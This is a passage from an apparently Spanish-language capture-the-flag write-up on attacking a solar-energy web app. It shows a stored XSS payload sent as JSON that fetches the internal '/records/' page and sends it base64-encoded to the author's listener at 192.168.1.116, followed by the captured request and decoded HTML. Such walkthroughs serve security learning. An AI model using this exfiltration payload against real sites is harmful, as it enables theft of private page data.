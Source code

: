 Por otro lado, intentamos obtener la página alojada en `/records/`. Parece tener relación con este nuevo topic. Volvemos a levantar el servicio HTTP en el puerto 80 en nuestra máquina:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

y enviamos el siguiente JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

Obtenemos en nuestro servicio HTTP la siguiente petición:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 01:32:57] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+TGlzdCBvZiBTb2xhciBFbmVyZ3kgRGF0YTwvdGl0bGU+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Ii9zdHlsZS5jc3MiPgogICAgPGxpbmsgcmVsPSJ ... RG93bmxvYWQgUERGPC9hPgogICAgICAgICAgICAgICAgICAgIDwvdGQ+CiAgICAgICAgICAgICAgICA8L3RyPgogICAgICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```

Decodificamos el base64 y encontramos el siguiente código de la página `/records/`:

```html
<!DOCTYPE html>
<html>

<head>
    <title>List of Solar Energy Data</title>
    <link rel="stylesheet" href="/style.css">
    <link rel="stylesheet" href="/style3.css">
</head>

<body>
    <div style="min-width:400px;background:white;padding:15px;border-radius: 8px;box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);">
        <div style="text-align:center;"><object class="solar-icon" data="../sun.svg" type="image/svg+xml" style="width:75px;"></object></div>
        <h1>List of Solar Energy Data</h1>
        <table>
            <tr>
                <th>Record</th>
                <th>Actions</th>
            </tr>
                            <tr>
                    <td>2024-09-02T23:04:27.035Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A04%3A27.035Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                            <tr>
                    <td>2024-09-02T23:09:07.758Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A09%3A07.758Z.json" class="download-btn">Download PDF</a>
                    </td>
```